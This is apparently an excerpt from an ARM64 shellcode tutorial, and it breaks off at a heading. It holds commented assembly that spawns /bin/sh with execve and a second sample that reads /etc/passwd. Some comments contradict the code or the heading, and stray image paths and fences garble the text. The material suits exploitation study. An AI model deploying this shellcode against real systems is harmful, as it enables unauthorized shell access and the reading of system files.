 ```
```
```

**with adr for linux**

```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
```


#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
    ; Prepare the arguments for the execve syscall
    sub sp, sp, #48        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, cat_path
    str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
    adr x0, passwd_path    ; Get the address of "/etc/passwd"
    str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
    str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)

    adr x0, cat_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall

cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
```
#### Invoke command with sh from a fork so the main process is not killed

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

```
